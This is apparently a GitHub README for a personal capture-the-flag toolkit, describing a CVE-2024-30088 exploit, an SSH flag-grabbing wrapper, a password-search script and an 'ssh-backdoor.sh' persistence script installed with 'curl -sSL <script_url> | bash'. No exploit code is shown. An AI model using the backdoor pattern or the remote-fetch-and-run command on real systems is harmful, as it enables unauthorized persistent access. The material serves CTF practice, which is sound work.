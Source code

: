 # CTF

## CVE-2024-30088_flags.cpp - Exploit for CVE-2024-30088 to Capture Flags

This is a modified exploit for **CVE-2024-30088**, designed to capture flags from a Windows system by exploiting a recent vulnerability. At the time, the exploit was effective, but it is expected to be patched on most up-to-date systems. It was fun while it lasted.


## flagssh.sh - SSH Wrapper for Snatching Flags and Initial Enumeration

`flagssh.sh` is an SSH wrapper script to automate flag retrieval during SSH authentication, targeting both user and root flags on remote systems. In addition to capturing flags, it has great potential for adding more functionality to assist with initial enumeration, such as checking user permissions, sudo privileges, and transferring necessary tools for further exploitation.

#### Features:
- Automates SSH login and flag retrieval (user.txt, root.txt).
- Supports both password-based and key-based SSH authentication.
- Provides a flexible framework for adding additional enumeration tasks during the initial foothold phase.

#### Usage:
```bash
flagssh.sh <username>@<hostname> [<password_or_ssh_key>]
```

## grepper.sh - Targeted Search for Hidden Files in CTF Challenges

`grepper.sh` is a tool for (CTF) challenges where critical information, like passwords or flags, is hidden deep within the filesystem. The tool was created after encountering a CTF box with a hidden password buried in a `.log.gz` file, which was frustrating to locate manually. This script automates the search process by grepping for specific keywords in common directories and compressed files, making it easier to find those elusive clues. While it's a resource intensive tool, it is often a last resort after traditional enumeration techniques have failed.

#### Features:
- Searches for keywords in common system directories and within `.gz` compressed files.
- Designed to help in CTF scenarios where important files or logs are buried deep within the filesystem.
- Provides quick searches in common directories like `/opt` and `/var`.
- Automatically generates keywords based on system usernames and hostnames.
- Supports verbose output and searching binary files.

#### Usage:
```bash
grepper.sh [--all] [--path=dir1] [--path=dir2] ... [--verbose] [--auto] [--quick] [--gzip] [keyword1 [keyword2 ...]]
```

- `--all`: Include binary files in the search.
- `--path=dir`: Specify one or more directories to search.
- `--verbose`: Print detailed command output.
- `--auto`: Automatically generate keywords from system users and hostnames.
- `--quick`: Quickly search common directories `/opt` and `/var`.
- `--gzip`: Enable searching within `.gz` compressed files.


## htb-usercontent.py - Fetch Hack The Box User-Generated Content

`htb-usercontent.py` is a script that interacts with the Hack The Box (HTB) API to retrieve all content generated by a specific user. This includes details about machines, challenges, and writeups the user has created. The tool is useful for OSINT allowing to quickly gain insights into a user's contributions on the HTB platform, such as which boxes they’ve created.


#### Usage:
```bash
htb-usercontent.py <user_id> [--proxy] [--ignore-ssl] [--machines] [--challenges] [--writeups]
```

- `<user_id>`: The HTB user ID you want to query.
- `--proxy`: Route requests through a proxy (useful for debugging).
- `--ignore-ssl`: Ignore SSL certificate verification.
- `--machines`: Print only information about machines created by the user.
- `--challenges`: Print only information about challenges created by the user.
- `--writeups`: Print only information about writeups authored by the user.


## ssh-backdoor.sh - Quick and Easy SSH Persistence

`ssh-backdoor.sh` is my absolute favourite script. It simplifies the process of setting up SSH persistence by adding public keys to the target's `~/.ssh/authorized_keys` file. This script ensures a secure and reliable backdoor for remote access if SSH login is available on the target machine. It performs the necessary directory and file setup, including backing up existing `authorized_keys`, setting appropriate permissions, and appending keys to the file.

The script is easy to curl into bash for fast execution and clean persistence.


#### Usage:
```bash
curl -sSL <script_url> | bash
```

## quickpass.py - Search for Passwords in RockYou Based on Keywords

`quickpass.py` is a simple yet effective script that searches the `rockyou.txt` wordlist for passwords related to specific keywords. It is particularly useful for boxes, where content creators sometimes use passwords that have some relation to the name of the box, service, or username. The script also supports searching in 1337-speak format for additional variations of the keywords.

#### Features:
- **Keyword-based password search**: Searches for passwords in `rockyou.txt` that match specific keywords, which can be related to the box name or service.
- **Leet-speak support**: Optionally convert the keyword into leet-speak (e.g., `h4ck3r`) and search for its variations.
- **Write results to file**: Saves matching passwords into `quickwins.txt` for easy access.

#### Usage:
```bash
quickpass.py <keywords> [--leet]
```
